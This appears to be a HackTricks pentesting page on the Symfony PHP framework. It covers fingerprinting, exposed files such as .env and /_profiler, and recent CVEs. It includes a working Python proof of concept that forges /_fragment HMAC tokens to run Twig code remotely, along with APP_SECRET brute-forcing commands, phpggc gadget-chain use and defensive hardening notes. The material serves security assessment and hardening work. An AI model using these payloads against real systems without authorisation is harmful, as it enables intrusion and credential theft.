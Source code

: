 # Symfony

{{#include ../../banners/hacktricks-training.md}}

Symfony is one of the most widely-used PHP frameworks and regularly appears in assessments of enterprise, e-commerce and CMS targets (Drupal, Shopware, Ibexa, OroCRM … all embed Symfony components).  This page collects offensive tips, common mis-configurations and recent vulnerabilities you should have on your checklist when you discover a Symfony application.

> Historical note: A large part of the ecosystem still runs the **5.4 LTS** branch (EOL **November 2025**).  Always verify the exact minor version because many 2023-2025 security advisories only fixed in patch releases (e.g. 5.4.46 → 5.4.50).

---

## Recon & Enumeration

### Finger-printing
* HTTP response headers: `X-Powered-By: Symfony`, `X-Debug-Token`, `X-Debug-Token-Link` or cookies starting with `sf_redirect`, `sf_session`, `MOCKSESSID`.
* Source code leaks (`composer.json`, `composer.lock`, `/vendor/…`) often reveal the exact version:
  ```bash
  curl -s https://target/vendor/composer/installed.json | jq '.[] | select(.name|test("symfony/")) | .name,.version'
  ```
* Public routes that only exist on Symfony:
  * `/_profiler`   (Symfony **Profiler** & debug toolbar)
  * `/_wdt/<token>` (“Web Debug Toolbar”)  
  * `/_error/{code}.{_format}` (pretty error pages)  
  * `/app_dev.php`, `/config.php`, `/config_dev.php` (pre-4.0 dev front-controllers)
* Wappalyzer, BuiltWith or ffuf/feroxbuster wordlists: `symfony.txt` → look for `/_fragment`, `/_profiler`, `.env`, `.htaccess`.

### Interesting files & endpoints
| Path | Why it matters |
|------|----------------|
| `/.env`, `/.env.local`, `/.env.prod` | Frequently mis-deployed → leaks `APP_SECRET`, DB creds, SMTP, AWS keys |
| `/.git`, `.svn`, `.hg` | Source disclosure → credentials + business logic |
| `/var/log/*.log`, `/log/dev.log` | Web-root mis-configuration exposes stack-traces |
| `/_profiler` | Full request history, configuration, service container, **APP_SECRET** (≤ 3.4) |
| `/_fragment` | Entry point used by ESI/HInclude.  Abuse possible once you know `APP_SECRET` |
| `/vendor/phpunit/phpunit/phpunit` | PHPUnit RCE if accessible (CVE-2017-9841) |
| `/index.php/_error/{code}` | Finger-print & sometimes leak exception traces |

---

## High-impact Vulnerabilities (2023-2025)

### 1. APP_SECRET disclosure ➜ RCE via `/_fragment` (aka “secret-fragment”)
* **CVE-2019-18889** originally, but *still* appears on modern targets when debug is left enabled or `.env` is exposed.
* Once you know the 32-char `APP_SECRET`, craft an HMAC token and abuse the internal `render()` controller to execute arbitrary Twig:
  ```python
  # PoC – requires the secret
  import hmac, hashlib, requests, urllib.parse as u
  secret = bytes.fromhex('deadbeef…')
  payload = "{{['id']|filter('system')}}"   # RCE in Twig
  query = {
      'template': '@app/404.html.twig',
      'filter': 'raw',
      '_format': 'html',
      '_locale': 'en',
      'globals[cmd]': 'id'
  }
  qs = u.urlencode(query, doseq=True)
  token = hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest()
  r = requests.get(f"https://target/_fragment?{qs}&_token={token}")
  print(r.text)
  ```
* Excellent write-up & exploitation script: Ambionics blog (linked in References).

### 2. Windows Process Hijack – CVE-2024-51736
* The `Process` component searched the current working directory **before** `PATH` on Windows.  An attacker able to upload `tar.exe`, `cmd.exe`, etc. in a writable web-root and trigger `Process` (e.g. file extraction, PDF generation) gains command execution.
* Patched in 5.4.50, 6.4.14, 7.1.7.

### 3. Session-Fixation – CVE-2023-46733
* Authentication guard reused an existing session ID after login.  If an attacker sets the cookie **before** the victim authenticates, they hijack the account post-login.

### 4. Twig sandbox XSS – CVE-2023-46734
* In applications that expose user-controlled templates (admin CMS, email builder) the `nl2br` filter could be abused to bypass the sandbox and inject JS.

### 5. Symfony 1 gadget chains (still found in legacy apps)
* `phpggc symfony/1 system id` produces a Phar payload that triggers RCE when an unserialize() happens on classes such as `sfNamespacedParameterHolder`.  Check file-upload endpoints and `phar://` wrappers.

{{#ref}}
../../pentesting-web/deserialization/php-deserialization-+-autoload-classes.md
{{#endref}}

---

## Exploitation Cheat-Sheet

### Calculate HMAC token for `/_fragment`
```bash
python - <<'PY'
import sys, hmac, hashlib, urllib.parse as u
secret = bytes.fromhex(sys.argv[1])
qs     = u.quote_plus(sys.argv[2], safe='=&')
print(hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest())
PY deadbeef… "template=@App/evil&filter=raw&_format=html"
```

### Bruteforce weak `APP_SECRET`
```bash
cewl -d3 https://target -w words.txt
symfony-secret-bruteforce.py -w words.txt -c abcdef1234567890 https://target
```

### RCE via exposed Symfony Console
If `bin/console` is reachable through `php-fpm` or direct CLI upload:
```bash
php bin/console about        # confirm it works
php bin/console cache:clear --no-warmup
```
Use deserialization gadgets inside the cache directory or write a malicious Twig template that will be executed on the next request.

---

## Defensive notes
1. **Never deploy debug** (`APP_ENV=dev`, `APP_DEBUG=1`) to production; block `/app_dev.php`, `/_profiler`, `/_wdt` in the web-server config.
2. Store secrets in env vars or `vault/secrets.local.php`, *never* in files accessible through the document-root.
3. Enforce patch management – subscribe to Symfony security advisories and keep at least the LTS patch-level.
4. If you run on Windows, upgrade immediately to mitigate CVE-2024-51736 or add a `open_basedir`/`disable_functions` defence-in-depth.

---

### Useful offensive tooling
* **ambionics/symfony-exploits** – secret-fragment RCE, debugger routes discovery.
* **phpggc** – Ready-made gadget chains for Symfony 1 & 2.
* **sf-encoder** – small helper to compute `_fragment` HMAC (Go implementation).



## References
* [Ambionics – Symfony “secret-fragment” Remote Code Execution](https://www.ambionics.io/blog/symfony-secret-fragment)
* [Symfony Security Advisory – CVE-2024-51736: Command Execution Hijack on Windows Process Component](https://symfony.com/blog/cve-2024-51736-command-execution-hijack-on-windows-with-process-class)
{{#include ../../banners/hacktricks-training.md}}
